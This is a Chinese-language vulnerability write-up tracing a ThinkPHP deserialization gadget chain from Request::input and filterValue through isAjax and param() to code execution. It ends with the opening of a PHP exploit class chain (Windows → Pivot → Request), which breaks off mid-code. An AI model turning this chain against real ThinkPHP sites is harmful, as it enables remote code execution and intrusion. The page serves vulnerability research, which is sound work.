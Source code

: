 ![armZEF.png](https://s1.ax1x.com/2020/08/05/armZEF.png)

在`Request::input`中 `$filter` 可控

![armij0.png](https://s1.ax1x.com/2020/08/05/armij0.png)

这里的`array_walk_recursive($data, [$this, 'filterValue'], $filter)` 会调用`$this->filterValue`

![armkuV.png](https://s1.ax1x.com/2020/08/05/armkuV.png)

示例
![armEHU.png](https://s1.ax1x.com/2020/08/05/armEHU.png)

跟进`$this->filterValue`

![arufBV.png](https://s1.ax1x.com/2020/08/05/arufBV.png)

![arugcn.png](https://s1.ax1x.com/2020/08/05/arugcn.png)

因此只要再让`$data`可控即可，及找到一个调用`Request::input()`且参数可控点点即可完成

过程不在多说，找到`this->param()`,但不能直接用`call_user_func_array`调用，因为参数不统一 会报错，找一个参数的函数，再找调用`this->param()`

![aruh7T.png](https://s1.ax1x.com/2020/08/05/aruh7T.png)

发现`$this->isAjax()`参数为一，且调用了param 切第一个参数可控

![aru2Xq.png](https://s1.ax1x.com/2020/08/05/aru2Xq.png)

![aruWn0.png](https://s1.ax1x.com/2020/08/05/aruWn0.png)

调用`input($data = [], $name = '', $default = null, $filter = '')` 时 name 需要为'', 否则data 会发生变化


完整流程
[![arGhY6.png](https://s1.ax1x.com/2020/08/05/arGhY6.png)](https://imgchr.com/i/arGhY6)

# 漏洞复现

![arYK8f.png](https://s1.ax1x.com/2020/08/05/arYK8f.png)

编写exp

```php
<?php

namespace think\process\pipes{

	class Windows{

		private $files = [];
		public function __construct(){

			$this->files["aaa"] = new \think\model\Pivot();
		}
	}
}

namespace think{

	abstract class Model{

		protected $append = [];
        private $data = [];
		public function __construct(){
			$this->data["key"] = new \think\Request();
```